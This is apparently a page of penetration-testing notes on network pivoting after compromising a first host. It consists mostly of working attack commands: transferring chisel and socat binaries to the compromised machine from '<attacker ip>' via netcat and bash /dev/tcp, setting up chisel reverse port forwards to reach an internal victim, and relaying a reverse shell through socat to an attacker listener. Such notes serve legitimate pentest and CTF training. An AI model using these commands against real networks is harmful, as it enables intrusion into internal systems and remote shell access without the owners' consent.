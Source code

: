 # Pivoting {-}

**Pivoting** is a technic that comes when attacker already took access to a first victim and see that this victim machine have access to other machines that attacker can
not connect to. Let's see an example:

Attacker gain access to the machine 10.10.10.10 and looking at his ifconfig he see someting like the following:

```bash
enp0s10f1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.10  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 fe80::7e8c:6a7c:faf1:274c  prefixlen 64  scopeid 0x20<link>
        ether 54:e1:ad:79:27:80  txqueuelen 1000  (Ethernet)
        RX packets 7463931  bytes 10268193539 (10.2 GB)
        RX errors 0  dropped 11149  overruns 0  frame 0
        TX packets 3581258  bytes 306664252 (306.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 16  memory 0xec200000-ec220000  

enp0s20f2: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 20.20.20.10  netmask 255.255.255.0  broadcast 20.20.20.255
        inet6 fe80::7e8c:6a7c:faf1:274c  prefixlen 64  scopeid 0x20<link>
        ether 54:e1:ad:79:27:80  txqueuelen 1000  (Ethernet)
        RX packets 7463931  bytes 10268193539 (10.2 GB)
        RX errors 0  dropped 11149  overruns 0  frame 0
        TX packets 3581258  bytes 306664252 (306.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 16  memory 0xec200000-ec220000  
```

At this moment attacker try to ping the victim machine at his second ip (20.20.20.20) and the ping don't respond. That's because Attacker don't have access to this network.
The only way he have is to use the victim machine to do a network discovery for the 20.20.20.0/24 network. On the victim machine he can for example do a 
`fping -a -g 20.20.20.0/24 2>/dev/null` or a `nmap -sn 20.20.20.0/24` (also a personal script if no other possiblity exists). 
Attacker see that another machine exists in this network segment. The 20.20.20.20 has been discovered with port 80 and 22. Because Attacker can not access to this machine,
he have to use the 10.10.10.10 to make a reverse port forwarding of the 20.20.20.20:80 and 20.20.20.20:22 to the ports of the attacker machine. That's pivoting

Here for the notes we will have special nomenclature:  

- 20.20.20.20 -> **victim machine**  
- 10.10.10.10 -> **pivoting machine**  
- attacker -> **attacker machine**  


## Pivoting with chisel {-}

1. Get chisel and build  

    ```bash
    git clone https://github.com/jpillora/chisel
    cd chisel
    go blid -ldflags "-s -w" .
    upx brute chisel
    ```

1. Send Chisel binary to the pivoting machine  

    - on attacker machine  

        ```bash
        md5sum chisel
        nc -nlvp 443 < chisel
        ```
    
    - on pivoting machine  

        ```bash
        cat > chisel < /dev/tcp/<attacker ip>/443
        md5sum chisel
        chmod +x chisel
        ```

1. Create reverse port forwarding with the victim machine ports to bind attacker machine ports  

    - on attacker machine  

        ```bash
        ./chisel server --reverse -p 1234
        ```
    
    - on pivoting machine  

        ```bash
        ./chisel client <attacker ip>:1234 R:127.0.0.1:80:<victim ip>:80 R:127.0.0.1:222:<victim ip>:22
        ```

1. Now attacker can check the web app on localhost:80 or use the ssh to 127.0.0.1 -p 222

## Pivoting with socat {-}

1. Get socat static binary  

    ```bash
    wget https://github.com/aledbf/socat-static-binary/releases/download/v.0.0.1/socat-linux-amd64
    ```

1. Send sockat to pivoting machine  

    - on attacker machine  

        ```bash
        md5sum socat
        nc -nlvp 1111 < socat
        ```
    
    - on pivotin machine  

        ```bash
        cat > socat < /dev/tcp/<attacker ip>/1111
        md5sum socat
        chmod +x socat
        ```

1. Prepare attacker machine for listenning  

    ```bash
    nc -nlvp 7979
    ```

1. Tuneling tcp data for reverse shell from victim to the attacker  

    - on pivoting machine  

    ```bash
    ./socat TCP-LISTEN:4545,fork tcp:<attacker ip>:7979 &
    ```

1. Reverse shell from victim to pivoting machine on 4545 port  


## Port forwarding with ssh {-}

```bash
ssh username@10.10.10.10 -L 1234:127.0.0.1:1234
```

Explanation of -L is we want a local port forwarding where port 1234 of the victim : will be forwarding to attacker local ip 127.0.0.1 on port 1234.


